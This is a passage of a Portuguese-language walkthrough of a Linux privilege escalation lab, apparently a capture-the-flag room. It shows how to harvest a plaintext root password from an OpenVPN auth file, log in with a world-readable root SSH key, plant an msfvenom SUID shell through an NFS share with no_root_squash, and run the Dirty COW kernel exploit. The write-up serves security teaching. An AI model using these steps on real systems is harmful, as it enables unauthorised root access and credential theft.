- a. ***What is the full mysql command the user executed?*** *mysql -h somehost.local -uroot -ppassword123*

## 17 - Passwords & Keys - Config Files 

Os arquivos de configuração geralmente contêm senhas em texto simples ou outros formatos reversíveis. Vários softwares instalados em um sistema operacional possuem arquivos de configuração.

Liste o conteúdo do diretório inicial do usuário:

```shell
user@debian:~$ ls 
myvpn.ovpn  tools
```
Percebe-se a presença de um arquivo de configuração ***myvpn.ovpn***. O conteúdo do arquivo pode ser visualizado com:

```shell
user@debian:~$ cat myvpn.ovpn 
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0
```
O arquivo deve conter uma referência a outro local (***/etc/openvpn/auth.txt***) onde as credenciais do usuário root possam ser encontradas. 

```shell
user@debian:~$ cat /etc/openvpn/auth.txt
root
password123
```

Mude para o usuário root, usando as credenciais.

### Questões:

- a. ***What file did you find the root user's credentials in?*** /etc/openvpn/auth.txt

## 18 - Passwords & Keys - SSH Keys 

Às vezes, os usuários fazem backups de arquivos importantes, mas não os protegem com as permissões corretas.

Procure por arquivos e diretórios ocultos na raiz do sistema:

```shell
user@debian:~$ ls -la /
total 96
drwxr-xr-x 22 root root  4096 Aug 25  2019 .
drwxr-xr-x 22 root root  4096 Aug 25  2019 ..
drwxr-xr-x  2 root root  4096 Aug 25  2019 bin
drwxr-xr-x  3 root root  4096 May 12  2017 boot
drwxr-xr-x 12 root root  2820 Jul 15 07:33 dev
drwxr-xr-x 67 root root  4096 Jul 15 07:33 etc
drwxr-xr-x  3 root root  4096 May 15  2017 home
lrwxrwxrwx  1 root root    30 May 12  2017 initrd.img -> boot/initrd.img-2.6.32-5-amd64
drwxr-xr-x 12 root root 12288 May 14  2017 lib
lrwxrwxrwx  1 root root     4 May 12  2017 lib64 -> /lib
drwx------  2 root root 16384 May 12  2017 lost+found
drwxr-xr-x  3 root root  4096 May 12  2017 media
drwxr-xr-x  2 root root  4096 Jun 11  2014 mnt
drwxr-xr-x  2 root root  4096 May 12  2017 opt
dr-xr-xr-x 96 root root     0 Jul 15 07:31 proc
drwx------  5 root root  4096 May 15  2020 root
drwxr-xr-x  2 root root  4096 May 13  2017 sbin
drwxr-xr-x  2 root root  4096 Jul 21  2010 selinux
drwxr-xr-x  2 root root  4096 May 12  2017 srv
drwxr-xr-x  2 root root  4096 Aug 25  2019 .ssh
drwxr-xr-x 13 root root     0 Jul 15 07:31 sys
drwxrwxrwt  2 root root  4096 Jul 15 07:54 tmp
drwxr-xr-x 11 root root  4096 May 13  2017 usr
drwxr-xr-x 14 root root  4096 May 13  2017 var
lrwxrwxrwx  1 root root    27 May 12  2017 vmlinuz -> boot/vmlinuz-2.6.32-5-amd64
```
Para localizar todos os arquivos ou diretórios ocultos, execute:

```shell
find / -name ".*" -exec ls -l {} \; 2>/dev/null
```

Observa-se que parece haver um diretório oculto chamado ***.ssh***. Veja o conteúdo do diretório:

```shell
user@debian:~$ ls -l /.ssh/
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```
O arquivo ***root_key*** é legível por todos. Uma inspeção adicional deste arquivo deve indicar que é uma chave SSH privada. O nome do arquivo sugere que é para o usuário root.

Copie a chave para o host atacante (é mais fácil apenas visualizar o conteúdo do arquivo ***root_key*** e copiar/colar a chave) e dar as permissões corretas, caso contrário, seu cliente SSH se recusará a usá-lo:

```shell
chmod 600 root_key
```

Use a chave para fazer login na VM Debian como a conta root:

```shell
ssh -i root_key root@IP_HOST_ALVO
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 19 - NFS

Os arquivos criados via NFS herdam o ID do usuário remoto. Se o usuário for ***root*** e o ***root squashing*** estiver ativado, o ID será definido como o usuário "***nobody***".

Verifique a configuração do compartilhamento NFS na VM Debian alvo:

```shell
user@debian:~$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
O compartilhamento ***/tmp*** tem root squashing desabilitada.

Na máquina atacante (Kali Linux, por exemplo), mude para o usuário root se ainda não estiver executando como root.

Usando o usuário root do Kali, crie um ponto de montagem  e monte-o em /tmp (atualize o IP de acordo):

```shell
┌──(root㉿kali)-[~]
└─# mkdir /tmp/nfs
┌──(root㉿kali)-[~]
└─# mount -o rw,vers=2 10.10.133.218:/tmp /tmp/nfs
```

Ainda usando o usuário root do Kali, gere um payload usando ***msfvenom*** e salve-o no compartilhamento montado (este payload simplesmente chama ***/bin/bash***):

```shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Ainda usando o usuário root do Kali, torne o arquivo executável e defina a permissão SUID:

```shell
chmod +xs /tmp/nfs/shell.elf
```

De volta à VM Debian alvo, como a conta de usuário com poucos privilégios, execute o arquivo para obter um shell de root:

```shell
/tmp/shell.elf
```
Um shell de usuário root será iniciado.

### Questões:

- a. ***What is the name of the option that disables root squashing?*** *no_root_squash*

## 20 - Kernel Exploits 

Os ***Kernel exploits*** podem deixar o sistema em um estado instável, e é por isso que você devem executados apenas como último recurso.

Execute a ferramenta ***Linux Exploit Suggester 2*** para identificar possíveis explorações do kernel no sistema atual:

```shell
user@debian:~$ perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```

A popular exploração do kernel Linux "***Dirty COW***" foi listada. O código de exploração para ***Dirty COW*** pode ser encontrado em /home/user/tools/kernel-exploits/dirtycow/c0w.c. Ele substitui o arquivo SUID /usr/bin/passwd por um que gera um shell (um backup de /usr/bin/passwd é feito em /tmp/bak).

Compile o código e execute-o (observe que pode levar vários minutos para ser concluído):

```shell
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Assim que a exploração for concluída, basta executar ***/usr/bin/passwd*** para obter um shell de root.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 21 - Privilege Escalation Scripts 

Várias ferramentas foram escritas para ajudar a encontrar possíveis escalações de privilégios no Linux. Três dessas ferramentas foram incluídas na VM Debian alvo no seguinte diretório: ***/home/user/tools/privesc-scripts***

```shell
user@debian:~$ ls /home/user/tools/privesc-scripts
LinEnum.sh  linpeas.sh  lse.sh
```

### Questões:

- a. ***Experiment with all three tools, running them with different options. Do all of them identify the techniques used in this room?*** *Não há necessidade de resposta*